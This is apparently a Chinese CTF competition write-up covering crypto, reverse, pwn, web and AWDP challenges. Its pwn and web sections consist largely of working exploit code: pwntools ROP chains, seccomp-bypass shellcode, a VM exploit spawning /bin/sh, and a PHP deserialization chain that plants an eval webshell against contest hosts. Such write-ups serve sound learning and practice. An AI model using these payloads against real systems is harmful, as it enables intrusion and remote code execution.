


[toc]
Crypto
ezzzecc
我们需要找到定义椭圆曲线的素数 p。通过计算 K 和 G 的坐标，来确定素数 p。具体方法如下：
$p1=K[0]^3+a\cdot K[0]+b-K[1]^2$
$p2=G[0]^3+a\cdot G[0]+b-G[1]^2$
我们利用求得的素数p来定义椭圆曲线E
$E=ECC(GF(p),[a,b])$
然后找到利用枚举的方法找到k
k = 0
for i in range(10000):
if i * G == K:
k = i
break
密文由c1和c2组成，由此解密
$m = c_1 - k \cdot c_2$
最后拼接
result_left = 149691910197772493630846090710751498787161757266225
result_right = 148194990859991056906456851498975219214210159620733
# 将大整数转换为字节并解码为字符串，忽略解码错误
left_part = int(result_left).to_bytes((result_left.bit_length() + 7) // 8, 'big').decode(errors='ignore')
right_part = int(result_right).to_bytes((result_right.bit_length() + 7) // 8, 'big').decode(errors='ignore')
# 将两个部分组合成flag
flag = left_part + right_part
print(flag)
signature
首先接收服务器发送的目标哈希值前6个字符。根据gift来爆破
io.recvuntil("Plz input your token\n>")
while(True):
getin, ans = gen_proof_key()
if ans[:6].encode() == target:
io.sendline(getin)
break
不断生成随机字符串并计算其哈希值，直到前6个字符与目标匹配，然后发送匹配的字符串。
然后接受解析DSA公钥
然后接受服务器给的私钥，对admin进行签名
MISC
初探勒索病毒
签到题，按照题目关注公众号，然后回复BASTA,下载git clone https://github.com/srlabs/black-basta-buster
需要给py文件chmod一下
cd black-basta-buster sed -i 's/flags/"flags"/' ./decryptblocks.py SRL_IGNORE_MAGIC=1 ./decryptblocks.py ../banana.jpg.sah28vut5 ../key.block file ../banana.jpg.sah28vut5
然后可以得到最终的文件

需要将文件的后缀名修正为.jpg才可以cat /flag
class
根据提示提示：每个类和函数均为_符号+八个字节，尝试将执行os.system('cat /flag')的整个利用链的所有类和函数全部统计出来

从这里开始，统计一共字符有0123456789ABCDEFOabcdef,将O变成0，这就是十六进制，然后发现有一个7z压缩包的文件头，
解压缩

import os
import hashlib
# 初始化字典来存储类和函数的映射关系，以及调用关系
classes = {}
caller_map = {}
# 读取文件并解析内容
with open("./class", "r") as f:
# 跳过文件开头的三行注释或无用行
for _ in range(3):
f.readline()
# 逐行解析文件内容
while True:
line1 = f.readline()
if not line1:
break # 如果没有更多内容则停止读取
# 获取类名
class_name = line1.split("class ")[1].split("():")[0]
# 获取函数名
func_name = f.readline().split("def ")[1].split("(self):")[0]
# 检查类名是否重复
assert class_name not in classes, f"duplicate class: {class_name}"
classes[class_name] = func_name
# 获取条件并验证条件
cond = f.readline().split("if ")[1].split(":")[0]
assert eval(cond), f"condition not true for class: {class_name}"
# 获取被调用函数的名称
callee = f.readline().strip().split("(")[0]
# 将调用关系记录在 caller_map 中
caller_map[callee] = f"{class_name}.{func_name}"
# 跳过多余的行
for _ in range(2):
f.readline()
# 设置当前函数为起始函数
cur = "os.system"
# 初始化存储字符串和计数器
class_str = ""
func_str = ""
all_str = ""
cnt = 0
# 解析调用链，生成对应的字符串
while cur in caller_map:
cur = caller_map[cur]
class_part, func_part = cur.split(".")
class_str += class_part[1:]
func_str += func_part[1:]
all_str += class_part[1:] + func_part[1:]
cnt += 1
# 输出调用链的长度
print(cnt)
# 获取所有字母并排序
letters = sorted(set(all_str))
print("".join(letters))
# 替换字母 "O" 为 "0"
class_str = class_str.replace("O", "0")
func_str = func_str.replace("O", "0")
all_str = all_str.replace("O", "0")
# 将结果写入文件
with open("class_str", "w") as f:
f.write(class_str)
with open("func_str", "w") as f:
f.write(func_str)
with open("all_str", "w") as f:
f.write(all_str)
# 将 class_str 和 func_str 组合为十六进制字符串，并写入二进制文件
hex_str = class_str + func_str
with open("res.7z", "wb") as f:
f.write(bytes.fromhex(hex_str))
reverse
snack
用python写的，先用pyinstxtractor解包，
然后decompyle3反编译，python3.8环境下
def initialize(key):
key_length = len(key)
S = list(range(256))
j = 0
for i in range(256):
j = (j + S[i] + key[i % key_length]) % 256
S[i], S[j] = S[j], S[i]
else:
return S
def generate_key_stream(S, length):
i = 0
j = 0
key_stream = []
for _ in range(length):
i = (i + 1) % 256
j = (j + S[i]) % 256
S[i], S[j] = S[j], S[i]
key_stream.append(S[(S[i] + S[j]) % 256])
else:
return key_stream
def decrypt(data, key):
S = initialize(key)
key_stream = generate_key_stream(S, len(data))
decrypted_data = bytes([i ^ data[i] ^ key_stream[i] for i in range(len(data))])
return decrypted_data
if score >= 9999:
flag_text = font.render('Flag: ' + decrypted_data.decode(), True, WHITE)
window.blit(flag_text, (10, 70))
需要拿到xor_key
在另一个目录下面找到key.py
拿到xor_key
xor_key = 'V3rY_v3Ry_Ez'
然后解密即可
pwn
stdout
有栈溢出，栈溢出后控制rip打rop，题目禁用了stdout，将结果输出到stderr上
也就是将文件描述符1重定向到2
cat /flag 1>&2
from pwn import *
# p = process('./pwn')
p = remote("8.147.132.12",38052)
libc = ELF('./libc-2.31.so')
exe = ELF('./pwn')
context.log_level = "debug"
vuln_addr = 0x40125D
p.sendline(b'a'*0x58+p64(vuln_addr))
dlresolve = Ret2dlresolvePayload(exe, symbol = 'system', args = ['cat /flag 1>&2'])
rop = ROP(exe)
rop.read(constants.STDIN_FILENO, dlresolve.data_addr)
rop.ret2dlresolve(dlresolve)
ret_addr = rop.find_gadget(['ret'])[0]
payload = b'a' * 0x28 + p64(ret_addr) + rop.chain()
p.send(dlresolve.payload)
p.recvall()
Shuffled_Execution
开了沙箱
line CODE JT JF K
=================================
0000: 0x20 0x00 0x00 0x00000004 A = arch
0001: 0x15 0x00 0x0d 0xc000003e if (A != ARCH_X86_64) goto 0015
0002: 0x20 0x00 0x00 0x00000000 A = sys_number
0003: 0x35 0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x0a 0xffffffff if (A != 0xffffffff) goto 0015
0005: 0x15 0x09 0x00 0x00000000 if (A == read) goto 0015
0006: 0x15 0x08 0x00 0x00000001 if (A == write) goto 0015
0007: 0x15 0x07 0x00 0x00000002 if (A == open) goto 0015
0008: 0x15 0x06 0x00 0x00000011 if (A == pread64) goto 0015
0009: 0x15 0x05 0x00 0x00000013 if (A == readv) goto 0015
0010: 0x15 0x04 0x00 0x00000028 if (A == sendfile) goto 0015
0011: 0x15 0x03 0x00 0x0000003b if (A == execve) goto 0015
0012: 0x15 0x02 0x00 0x00000127 if (A == preadv) goto 0015
0013: 0x15 0x01 0x00 0x00000142 if (A == execveat) goto 0015
0014: 0x06 0x00 0x00 0x7fff0000 return ALLOW
0015: 0x06 0x00 0x00 0x00000000 return KILL
shuffle通过strlen来获取字符串长度，通过mov bx 0x00来进行绕过
用openat``pwritev``preadv
from pwn import *
context.arch = 'amd64'
p = remote("8.147.128.163" ,39595)
context.log_level = "DEBUG"
# 编写汇编代码并转换为机器代码
pad = asm("""
mov rsp, rax # 将 rsp 寄存器设置为 rax 的值
add rsp, 0x200 # 将 rsp 增加 0x200
mov rdi, 0 # 设置 rdi 寄存器为 0 (文件描述符)
mov rax, 0x67616c662f # 将 "flag" 字符串的十六进制表示移动到 rax
push rax # 将 rax 推送到栈中
mov rsi, rsp # 将 rsi 设置为 rsp (文件路径指针)
mov rdx, 0x1000 # 设置 rdx 为 0x1000 (文件权限)
mov rax, 257 # 设置 rax 为 257 (openat 系统调用号)
syscall # 执行系统调用 openat
mov rbx, rsp # 将 rbx 设置为 rsp
add rbx, 0x100 # 将 rbx 增加 0x100 (创建图标空间)
mov rcx, rbx # 将 rcx 设置为 rbx
add rcx, 0x100 # 将 rcx 增加 0x100 (指向 /flag 缓冲区)
mov [rbx], rcx # 将 rcx 的值存储到 [rbx]
mov r8, 0x50 # 将 r8 设置为 0x50
mov [rbx+0x8], r8 # 将 r8 的值存储到 [rbx+0x8]
mov rdi, 3 # 设置 rdi 为 3 (文件描述符)
mov rsi, rbx # 将 rsi 设置为 rbx (缓冲区)
mov rdx, 1 # 设置 rdx 为 1
mov r10, 0 # 将 r10 设置为 0
mov r8, 0 # 将 r8 设置为 0
mov r9, 0 # 将 r9 设置为 0
mov rax, 327 # 设置 rax 为 327 (preadv2 系统调用号)
syscall # 执行系统调用 preadv2
mov rdi, 1 # 设置 rdi 为 1 (标准输出)
mov rsi, rbx # 将 rsi 设置为 rbx (缓冲区)
mov rdx, 1 # 设置 rdx 为 1
mov r10, 0 # 将 r10 设置为 0
mov r8, 0x0 # 将 r8 设置为 0x0
mov r9, 0x0 # 将 r9 设置为 0x0
mov rax, 20 # 设置 rax 为 20 (pwritev2 系统调用号)
xor rcx, rcx # 将 rcx 清零
xor r11, r11 # 将 r11 清零
xor rbx, rbx # 将 rbx 清零
syscall # 执行系统调用 pwritev2
ret # 返回
""")
# 打包数据
payload = flat([
p32(0x66bb),
pad
])
# 将数据发送到目标程序
p.send(payload)
# 开启交互模式
p.interactive()
SavethePrincess
沙箱
0000: 0x20 0x00 0x00 0x00000004 A = arch
0001: 0x15 0x00 0x0b 0xc000003e if (A != ARCH_X86_64) goto 0013
0002: 0x20 0x00 0x00 0x00000000 A = sys_number
0003: 0x35 0x00 0x01 0x40000000 if (A < 0x40000000) goto 0005
0004: 0x15 0x00 0x08 0xffffffff if (A != 0xffffffff) goto 0013
0005: 0x15 0x07 0x00 0x00000000 if (A == read) goto 0013
0006: 0x15 0x06 0x00 0x00000002 if (A == open) goto 0013
0007: 0x15 0x05 0x00 0x00000013 if (A == readv) goto 0013
0008: 0x15 0x04 0x00 0x00000028 if (A == sendfile) goto 0013
0009: 0x15 0x03 0x00 0x0000003b if (A == execve) goto 0013
0010: 0x15 0x02 0x00 0x00000127 if (A == preadv) goto 0013
0011: 0x15 0x01 0x00 0x00000142 if (A == execveat) goto 0013
0012: 0x06 0x00 0x00 0x7fff0000 return ALLOW
0013: 0x06 0x00 0x00 0x00000000 return KILL
跟上一道题类似,``openat + preadv2 + write `
有fmt，可以泄露canary
然后需要爆破一下password
最后正常rop即可
from pwn import *
def menu(p, i, prompt="> "):
p.sendlineafter(prompt, i)
def magic(p, payload):
menu(p, '1')
p.send(payload)
def challenge(p, payload):
menu(p, '2')
p.sendafter("Attack the dragon!!", payload)
def show(p):
menu(p, '3')
def dele(p):
menu(p, '4')
# p = remote('')
p = process('./pwn')
elf = ELF(file_path)
libc = ELF('./libc.so.6')
magic(p, b'a'*3)
p.recvuntil("aaa")
leak_elf = u64(p.recv(6).ljust(8, b'\x00'))
log.info(f"Leak ELF: {hex(leak_elf)}")
elf_base = leak_elf - (0x570964f68d38 - 0x570964f65000)
log.info(f"ELF Base: {hex(elf_base)}")
key = [0] * 8
# bruteforce
try:
for k in range(1, 9):
for i in range(26):
pad = ""
for it in range(1, k):
pad += chr(key[it])
pad += chr(i + ord('a'))
pad = pad.ljust(0xa, 'a')
magic(p, pad)
p.recvuntil("you password is ")
result = p.recvline()[:-1]
log.info(result)
if(result[-1] == k):
key[k] = i + ord('a')
log.success(f"found {chr(i + ord('a'))}")
break
except:
p.send(b'%9$p%15$p%19$p')
p.recvuntil("successfully, Embrace the power!!!\n")
leak_canary = int(p.recv(18).decode(), 16)
success(f"Canary: {hex(leak_canary)}")
leak_libc = int(p.recv(14).decode(), 16)
success(f"Libc Leak: {hex(leak_libc)}")
libc_base = leak_libc - (0x744e10029d90 - 0x744e10000000)
success(f"Libc Base: {hex(libc_base)}")
leak_stack = int(p.recv(14).decode(), 16)
success(f"Stack Leak: {hex(leak_stack)}")
libc.address = libc_base
pop_rdi = next(libc.search(asm('pop rdi; ret')))
pop_rsi = next(libc.search(asm('pop rsi; ret')))
pop_rdx_rbx = next(libc.search(asm('pop rdx; pop rbx; ret')))
syscall = next(libc.search(asm('syscall')))
flag_addr = leak_stack - 0x178
iovec_addr = leak_stack - 0x170
challenge(p, flat([
b'/flag\x00\x00\x00', # flag
leak_stack - 0x300, 0x50, # preadv2_struct
b'a'*0x20,
leak_canary,
0,
pop_rdi, 3,
pop_rsi, leak_stack-0x300, # preadv
pop_rdx_rbx, 0x50, 0,
pop_r10, 0,
pop_rax, 17,
syscall,
pop_rdi, 1,
pop_rsi, leak_stack - 0x300,
pop_rdx_rbx, 0x50, 0,
pop_rax, 1,
syscall
]))
p.interactive()
web
hijack
php反序列化
Env->math->DiFF 之后，随便补充一个 dummy 类来添加一个 p 然后反序列化并Urlencode来调用 Diff 中的 __isset 行不通，（指的是拿不到最终的flag）是假的flag flag{fake_flag_really_flag_require_you_rce!!!!}
再尝试拿到hint的内容
hints.txt 的内容 RCE!!!!!!!?????? Try every possible means!!!!! Remote Code Execution!!!! THIS_IS_FAKE_CAT!!!! 没什么用
尝试提供一个这样的 aaa./aaa 文件名，正则匹配到的后缀会是 ./aaa，rename 失败之后，原来的写进的文件也不会被删掉，我们就能任意写了
Warning: file_put_contents(aaa./aaa): failed to open stream: No such file or directory in /var/www/html/index.php on line 66
发现没有办法传入
链子env→diff→fun→file
$env = new ENV();
$diff = new DIFF();
$file = new FILE();
$func = new FUN();
$env->math = $diff;
$diff->callback = $func;
$func->value = "PD9waHBAZXZhbCgkX1BPU1RbJ2hhY2snXSk7Pz4=";
$func->fun = $file;
$file->filename = "back.php";
$serialized = serialize($env);
用条件竞争来写，先写一个back.php，里面用file_put_contents来写一个shell.php来写一个一句话木马，然后base64编码
先疯狂的发送上传文件的请求
然后再疯狂的访问url/back.php，然后会写入shell.php
再访问shell.php，用antsword连接获取根目录下的flag_(奇奇怪怪的数据)，也就是真正的flag即可
import requests as rq
while True:
a = rq.post("http://eci-2zed5tpm2rmhba14rbwk.cloudeci1.ichunqiu.com/", data={
"Harder":b"O:3:\"ENV\":3:{s:3:\"key\";N;s:5:\"value\";N;s:4:\"math\";O:4:\"DIFF\":3:{s:8:\"callback\";O:3:\"FUN\":2:{s:3:\"fun\";O:4:\"FILE\":2:{s:8:\"filename\";s:8:\"back.php\";s:10:\"enviroment\";N;}s:5:\"value\";s:84:\"PD9waHAgZmlsZV9wdXRfY29udGVudHMoInNoZWxsLnBocCIsIjw/PWV2YWwoXCRfUkVRVUVTVFswXSk7Iik7\";}s:4:\"back\";N;s:10:\"\x00DIFF\x00flag\";N;}}"
})
import requests as rq
while True:
a = rq.get("http://eci-2zed5tpm2rmhba14rbwk.cloudeci1.ichunqiu.com/back.php")
if a.status_code == 200:
print("ok")
AWDP
pwn
simpleSys
break
在add_bio函数中，可以输入-1，然后在强转之后会变成UMAX，可以实现溢出
存在base64验证，目的是进到root的if分支中
然后泄露libc和elf地址，然后打rop
from pwn import *
from pwncli import *
from LibcSearcher import *
context.arch = "amd64"
context.log_level = "DEBUG"
context.terminal =['tmux','splitw','-h']
cli_script()
io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc
def d():
gdb.attach(p)
pause()
p = remote("8.147.134.120",45454)
exe = ELF('./main')
def menu(i, prompt="Enter your choice: "):
p.sendlineafter(prompt, i)
def sign_up(username,password):
menu('1')
p.sendlineafter('username:',username)
p.sendlineafter("password:",password)
def login(username,password):
menu('2')
p.sendlineafter('username:',username)
p.sendlineafter("password:",password)
def loggout():
menu('4')
sign_up("ssss","123")
login("root", "a"*0x24)
# go to the confirm
menu('3')
p.sendlineafter("input length: ", "-1")
p.sendline(b"a"*0x67+b'z') # tagger
p.recvuntil(b'z')
leak_addr = u64(p.recv(6).ljust(8,b'\x00'))
success(f"leak-->{hex(leak_addr)}")
elf_base = leak_addr - 0x187d
p.sendlineafter("[y/n]",'n')
p.sendlineafter("input length: ", "-1")
pop_rdi = elf_base + 0x0000000000001751
add_bio_addr = elf_base + 0x146A
# leak_libc
p.sendline(flat(
b'a'*0x68,
pop_rdi,
elf_base + exe.got['puts'],
elf_base + exe.plt['puts'],
add_bio_addr
))
p.sendlineafter("[y/n]",'y')
# gdb.attach(p)
leak_libc = u64(p.recv(6).ljust(8, b'\x00'))
success(f"libc---->{hex(leak_libc)}")
libc_base = leak_libc - 0x80e50
pop_rsi = 0x000000000002be51 + libc_base
pop_rdx_rbx = 0x00000000000904a9 + libc_base
binsh = libc_base + 0x1ae82f
# gift.libc.address = libc_base
# gift.libc = libc
Libc=LibcSearcher("puts",leak_libc)
addr_system=libc_base+Libc.dump("system")
addr_binsh=libc_base+Libc.dump("str_bin_sh")
# rop
# Ubuntu GLIBC 2.35-0ubuntu3.8
p.sendlineafter("input length: ", "-1")
sl(flat([
b'a'*0x60, 0,
pop_rdi, elf_base + 0x40C0,
pop_rsi, 0,
pop_rdx_rbx, 0, 0,
addr_system,0
]))
# p.sendline(flat(
# b'a'*0x68,
# pop_rdi,addr_binsh,
# addr_system,
# 0
# ))
# gdb.attach(p)
p.interactive()
fix
用ida的key_patcher将root权限删除，也就是即使按照root登录也不会给root的权限，这样就没办法读到/flag
spiiill
break
一道vm题
对应的操作码和操作分别是
0: exit(0)
1: 1 X = push(X)
2: pop()
3: 3 reg x : mov(reg,x)
4: 4 reg x : reg = xor(reg,x)
5: 5 reg x : reg = reg<<x
6: 6 reg x : reg = reg>>x
7: 7 reg x : reg = reg + x
8: 8 reg x : reg = reg - x
9: 9 : rip = code[rip]
10： call
11 copy
12 system mem
因此先将/bin/sh字符串push到栈上，然后设置寄存器，然后将栈上的东西拷贝到内存中，最后调用system
from pwn import *
p = remote("8.147.134.120",14969)
# input
p.sendline('2')
p.sendlineafter("see you",flat(
1, 0x68732f6e69622f, # binsh
3, 1, 0, # set the reg
3, 2, 8, # set the reg
3, 0, 0, # set the reg
11, # copy from stack to mem
10, 12, 0, # system(mem[0])
))
# run
p.sendlineafter('3')
p.interactive()